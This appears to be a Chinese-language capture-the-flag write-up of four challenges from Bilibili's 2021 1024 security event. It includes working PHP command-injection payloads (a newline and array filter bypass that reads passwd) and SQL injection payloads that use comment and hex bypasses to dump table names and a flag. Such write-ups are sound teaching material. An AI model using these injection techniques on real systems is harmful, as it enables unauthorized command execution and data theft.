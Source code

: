 ```yaml
---
title: "Bilibili 1024安全攻防 Wp"
slug: "bilibili-sec1024-wp"
description: "只有前4个，水着玩一玩"
date: 2021-11-14T20:15:47+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


## 安全攻防--1

> https://security.bilibili.com/sec1024/q/r1.html  | [提示](https://baike.baidu.com/item/高级加密标准/468774)
>
> 1024程序员节，大家一起和2233参与解密游戏吧~
> happy_1024_2233:
> e9ca6f21583a1533d3ff4fd47ddc463c6a1c7d2cf084d364
> 0408abca7deabb96a58f50471171b60e02b1a8dbd32db156

![image-20211114154001444](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211114154001444.png)

`a1cd5f84-27966146-3776f301-64031bb9`

## 安全攻防--2

> https://security.bilibili.com/sec1024/q/  |  [提示](https://cli.vuejs.org/zh/config/#productionsourcemap)
>
> 某高级前端开发攻城狮更改了一个前端配置项

提示中给的是vue的官方文档，并且定位到了productionSourceMap

来一波f12

![image-20211114154330638](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211114154330638.png)

`36c7a7b4-cda04af0-8db0368d-b5166480`

## 安全攻防--3

> https://security.bilibili.com/sec1024/q/eval.zip  |  [提示](https://www.php.net/manual/zh/function.preg-match.php)
>
> PHP is the best language for web programming, but what about other languages?

```php
<?php
    /*
        bilibili- ( ゜- ゜)つロ 乾杯~
        uat: http://192.168.3.2/uat/eval.php
        pro: http://security.bilibili.com/sec1024/q/pro/eval.php
    */
    $args = @$_GET['args'];
    if (count($args) >3) {
        exit();
    }
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) ) {
            exit();
        }
    }
    // todo: other filter
    $cmd = "/bin/2233 " . implode(" ", $args);
    exec($cmd, $out);
    for ($i=0; $i<count($out); $i++){
        echo($out[$i]);
        echo('<br>');
    }
?>

```

可以get方式接收最多3个名为args的参数，对每个参数的值进行正则匹配，最后拼接到$cmd后面被exec执行，用%0a换行+数组[]绕过

payload

```
https://security.bilibili.com/sec1024/q/pro/eval.php?args[]=1%0a&args[]=ls
https://security.bilibili.com/sec1024/q/pro/eval.php?args[]=1%0a&args[]=cat&args[]=passwd
```

`9d3c3014-6c6267e7-086aaee5-1f18452a`

## 安全攻防--4

> https://security.bilibili.com/sec1024/q/  |  [提示](https://baike.baidu.com/item/sql注入/150289)
>
> 懂的都懂

有个请求api https://security.bilibili.com/sec1024/q/admin/api/v1/log/list，本能的去fuzz一下，结果412了……QAQ

username部分可以sqli，过滤了空格和单引号，用注释和16进制绕过

payload

```json
"user_name": "1/**/union/**/select/**/database(),user(),3,4,5",
"user_name": "1/**/union/**/select/**/database(),user(),3,4,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()#",
"user_name": "1/**/union/**/select/**/database(),user(),3,4,group_concat(id)/**/from/**/flag#",
```

`3d5dd579-0678ef93-18b70cae-cabc5d51`

------

难度应该算是偏简单的，就是，emmmmmmmmmm

算了，我不好说